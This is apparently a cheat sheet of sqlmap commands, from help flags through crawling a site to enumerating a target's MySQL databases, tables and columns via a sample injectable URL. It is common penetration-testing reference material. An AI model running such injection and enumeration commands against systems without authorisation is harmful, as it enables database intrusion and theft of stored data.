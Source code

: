[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

## SQLMap

Show basic help message and exit

```
sqlmap -h
```

Show advanced help message and exit

```
sqlmap -hh
```

Crawl a website

```
sqlmap -u http://192.168.19.84 --crawl=1
```

Target URL

```
sqlmap -u http://www.site.com/vuln.php?id=1
```

Show sqlmap man page

```
man sqlmap
```

Verbosity level: 0-6 (default 1)

```
sqlmap -v -u http://www.site.com/vuln.php?id=1
```

Force usage of SSL/HTTPS

```
sqlmap -u http://www.site.com/vuln.php?id=1 --force-ssl
```

Enumerate databases

```
sqlmap --dbms=mysql -u "$URL" --dbs
```

Enumerate tables

```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables
```

Enumerate columns

```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --columns
```
